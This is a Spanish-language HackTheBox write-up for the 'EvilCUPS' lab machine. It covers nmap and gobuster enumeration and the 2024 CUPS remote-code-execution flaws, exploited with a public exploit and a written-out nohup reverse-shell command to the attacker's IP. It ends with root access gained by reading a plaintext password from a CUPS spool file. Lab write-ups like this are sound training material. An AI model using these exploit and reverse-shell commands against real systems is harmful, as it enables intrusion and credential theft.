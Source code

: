 ```yaml
---
layout: single
title: write up EvilCUPS
excerpt:
date: 2024-11-07
classes: wide
header:
  teaser: /assets/images/EvilCUPS/0_uZO541QLUUyiyuW1-1681376233.png
  teaser_home_page: true
categories:
  - hacking
  - linux
  - 
tags:  
  - hacking
  - linux
---
```


![](/assets/images/EvilCUPS/0_uZO541QLUUyiyuW1-1681376233.png)
"EvilCUPS" es una máquina de HackTheBox basada en vulnerabilidades del servicio CUPS que permiten ejecución remota de comandos. Siguiendo un tutorial reciente, logramos acceso inicial al sistema y, al revisar archivos de configuración de CUPS, encontramos una contraseña reutilizada para root, lo que nos dio control total del sistema.

lo primero que vamos a hacer es ejecutar los escaneos de nmap:
```bash
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 10.10.11.40 -oG allports
```
![](/assets/images/EvilCUPS/Pastedimage20241107151258.png)

```bash
nmap -sCV -p22,631 10.10.11.40 -oN ports
```
![](/assets/images/EvilCUPS/Pastedimage20241107151642.png)
vemos que nos da la version de cups que es la 2.4 una version antigua del 2022.
tambien podemos ver que hay http por lo que alomejor hay una web.
vamos a usar whatweb para averiguarlo:
```bash
whatweb 10.10.11.40:631
```
![](/assets/images/EvilCUPS/Pastedimage20241107152132.png)
como podemos ver hay algo por lo que vamos a ponerlo en el navegador
![](/assets/images/EvilCUPS/Pasted image 20241107152436.png)
nada mas entrar vemos otra vez la version del servicio y multiples enlaces a los cuales podemos acceder.
antes de ponerme a tocar voy a preferir ejecutar un gobuster para ver si encuentro algo mas
```bash
 gobuster dir -u http://10.10.11.40:631/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 30 -x php,html,php.bak,bak,txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.40:631/
[+] Method:                  GET
[+] Threads:                 30
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php.bak,bak,txt,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 2262]
/help                 (Status: 200) [Size: 3137]
/jobs                 (Status: 200) [Size: 2329]
/jobs.txt             (Status: 200) [Size: 2329]
/jobs.html            (Status: 200) [Size: 2329]
/jobs.php.bak         (Status: 200) [Size: 2329]
/jobs.php             (Status: 200) [Size: 2329]
/jobs.bak             (Status: 200) [Size: 2329]
/de                   (Status: 200) [Size: 2316]
/fr                   (Status: 200) [Size: 2340]
/admin                (Status: 403) [Size: 370]
/admin.html           (Status: 403) [Size: 370]
/admin.php            (Status: 403) [Size: 370]
/admin.bak            (Status: 403) [Size: 370]
/admin.txt            (Status: 403) [Size: 370]
/admin.php.bak        (Status: 403) [Size: 370]
/es                   (Status: 200) [Size: 2478]
/ru                   (Status: 200) [Size: 2739]
/ja                   (Status: 200) [Size: 2263]
/printers.php.bak     (Status: 200) [Size: 2388]
/printers.bak         (Status: 200) [Size: 2388]
/printers             (Status: 200) [Size: 2388]
/printers.html        (Status: 200) [Size: 2388]
/printers.php         (Status: 200) [Size: 2388]
/printers.txt         (Status: 200) [Size: 2388]
/classes.php.bak      (Status: 200) [Size: 2003]
/classes              (Status: 200) [Size: 2003]
/classes.bak          (Status: 200) [Size: 2003]
/classes.php          (Status: 200) [Size: 2003]
/classes.txt          (Status: 200) [Size: 2003]
/classes.html         (Status: 200) [Size: 2003]
/robots.txt           (Status: 200) [Size: 95]
/administration       (Status: 403) [Size: 370]
/administration.txt   (Status: 403) [Size: 370]
/administration.html  (Status: 403) [Size: 370]
/administration.php   (Status: 403) [Size: 370]
/administration.php.bak (Status: 403) [Size: 370]
/administration.bak   (Status: 403) [Size: 370]
/da                   (Status: 200) [Size: 2311]
/'                    (Status: 403) [Size: 370]
/'.php                (Status: 403) [Size: 370]
/'.php.bak            (Status: 403) [Size: 370]
/'.html               (Status: 403) [Size: 370]
/'.bak                (Status: 403) [Size: 370]
/'.txt                (Status: 403) [Size: 370]
/jobsearch.php        (Status: 200) [Size: 2329]
/jobsearch            (Status: 200) [Size: 2329]
/jobsearch.html       (Status: 200) [Size: 2329]
/jobsearch.bak        (Status: 200) [Size: 2329]
/jobsearch.php.bak    (Status: 200) [Size: 2329]
/jobsearch.txt        (Status: 200) [Size: 2329]
/jobseeker            (Status: 200) [Size: 2329]
/jobseeker.bak        (Status: 200) [Size: 2329]
/jobseeker.txt        (Status: 200) [Size: 2329]
/jobseeker.php        (Status: 200) [Size: 2329]
/jobseeker.php.bak    (Status: 200) [Size: 2329]
/jobseeker.html       (Status: 200) [Size: 2329]
Progress: 32619 / 7642998 (0.43%)
```
no parece aver nada interesante por lo que vamos a tocar la pagina
si nos vamos a http://10.10.11.40:631/printers/
veremos lo siguiente:
![](/assets/images/EvilCUPS/Pastedimage20241107153439.png)
si clicamos sobre Canon_MB2300_series veremos que nos da cierta infromacion de la impresora
![](/assets/images/EvilCUPS/Pasted image 20241107153634.png)
tambien si vemos Show completed jobs saldran las tareas completadas (en vuestro caso solo os saldra una no como a mi que me puse a tocar antes de escribir xdd)
![](/assets/images/EvilCUPS/Pastedimage20241107153804.png)
como podemos ver hay dos usuarios Withheld y anonymous ( este ultimo es que usado yo y que no os aparecera)
lo interesante esque tenemos poder sobre el usuario anonymous pero por ejemplo si intentamos haceder a http://10.10.11.40:631/admin nos suelta un 403 forbiden
![](/assets/images/EvilCUPS/Pastedimage20241107154158.png)
por lo aqui entran los siguientes CVE:
[CVE-2024-47176](https://nvd.nist.gov/vuln/detail/CVE-2024-47176)
[CVE-2024-47076](https://nvd.nist.gov/vuln/detail/CVE-2024-47076)
[CVE-2024-47175](https://nvd.nist.gov/vuln/detail/CVE-2024-47175)
[CVE-2024-47177](https://nvd.nist.gov/vuln/detail/CVE-2024-47177)
basicamente lo que hay que comprobar el puerto 631 por UDP, si esta abierto podemos ejecuatr remote code execution (RCE)
por lo que podemos usar nmap para ver si es correcto:
```bash
nmap -sU -p631 10.10.11.40
```
![](/assets/images/EvilCUPS/Pastedimage20241107154858.png)
como podemos ver esta abierto por lo que genial (para nostros como atacantes claro)
vamos a darnos el lujazo de que vamos a usar el siguiente exploit para poder vulnerar el servicio 
https://github.com/IppSec/evil-cups.git
para isntalarlo es asi:
```bash
❯ git clone https://github.com/IppSec/evil-cups.git
<SNIP>

❯ cd evil-cups

❯ python3 -m venv evilcups_env

❯ source evilcups_env/bin/activate

❯ pip3 install -r requirements.txt

❯ python3 evilcups.py -h
evilcups.py <LOCAL_HOST> <TARGET_HOST> <COMMAND>
```
vale una vez echo abrimos otra terminal y nos ponemos en escucha por un puerto, en mi caso voy a elejir el 443 (no afecta en nado solo es por gusto)
```bash
nc -nvlp 443
```
ahora el exploit tiene un pero por ejemplo, nos enviamos una reverse shell ésta compartirá el mismo PID del proceso que está corriendo la impresora
para comprenderlo mejor voy a citar una explicacion de otro write up que lo explica fabulosamente y os dejo el enlace tambien al writeup oficial
https://gunzf0x.github.io/pentesting/es/posts/evilcups/
cito:
"por ejemplo, nos enviamos una reverse shell ésta compartirá el mismo `PID` del proceso que está corriendo la impresora. De manera que, si por A, B, C motivo la mala impresora (agregada) se muere o es removida, nuestra reverse shell también morirá ya que es un proceso “child” (hijo) de ésta. Puede haber un proceso corriendo por detrás el cual elimina las impresoras no deseadas. Por tanto, nuestra reverse shell podría morir. Para sobrepasar este problema podemos crear un nuevo `PID` el cual se haga cargo del proceso de la reverse shell utilizando el comando `nohup` junto con el de la reverse shell. Por tanto, si realizamos esta secuencia de ataque para `CUPS`, se recomienda hacerlo utilizando `nohup` para crear un proceso independiente.

Como último aviso, en la vida real puede que no haya un proceso removiendo constantemente las impresoras no deseadas. De ser ese el caso (el cual es más realista), y por alguna razón nuestra reverse shell muere, tendremos que cambiar nuestra dirección IP dado que al realizar la inyección ésta no aceptará un nuevo archivo `PPD`. Supongo que por eso la gente de HTB fue considerada y agregó el proceso de borrar impresoras. De otro modo necesitaríamos cambiar la IP cada vez que la reverse shell muere o, incluso, si es que simplemente ejecutamos un `ping` para saber si el exploit funcionaba."

vale una vez dicho esto vamos a ejecuat el exploit de la siguiente forma:
```bash
python3 evilcups.py 10.10.16.74 10.10.11.40 'nohup bash -c "bash -i >& /dev/tcp/10.10.16.74/443 0>&1" &'
```
y esperamos unos 30 segundos
pasados esos 30 segundos si vamos a http://10.10.11.40:631/printers/ veremos la impresora maliciosa
![](/assets/images/EvilCUPS/Pastedimage20241107160105.png)
si la selecionamos y imprimimos una pagina de ejmplo 
pum estamos dentro
![](/assets/images/EvilCUPS/Pastedimage20241107160207.png)
![](/assets/images/EvilCUPS/Pastedimage20241107160221.png)
ahora para el escalado de privilegios 
## escalado de privilegios
hay un directorio cups donde en general se almacena todo. problema no tenemos haceso pero si podemos ejecutar comando:
![](/assets/images/EvilCUPS/Pastedimage20241107160946.png)
por lo que si investigamos un poco descubrimos que suelen tener una nomeglatura generica los archivos gracias a la documentacion oficial de cups
por lo que si supuestamente hacemos un:
```bash
cat /var/spool/cups/d00001-001
```
deveria ver una/unas contraseña/s
![](/assets/images/EvilCUPS/Pastedimage20241107161244.png)
y exacto hay la tenemos.
si nos la copiamos y con netexect para ver si es de root:
```bash
nxc ssh 10.10.11.40 -u 'root' -p 'Br3@k-G!@ss-r00t-evilcups'
```
![](/assets/images/EvilCUPS/Pastedimage20241107161436.png)
y vemos que si por lo que ya solo es entrar por ssh y somos root
![](/assets/images/EvilCUPS/Pastedimage20241107161548.png)
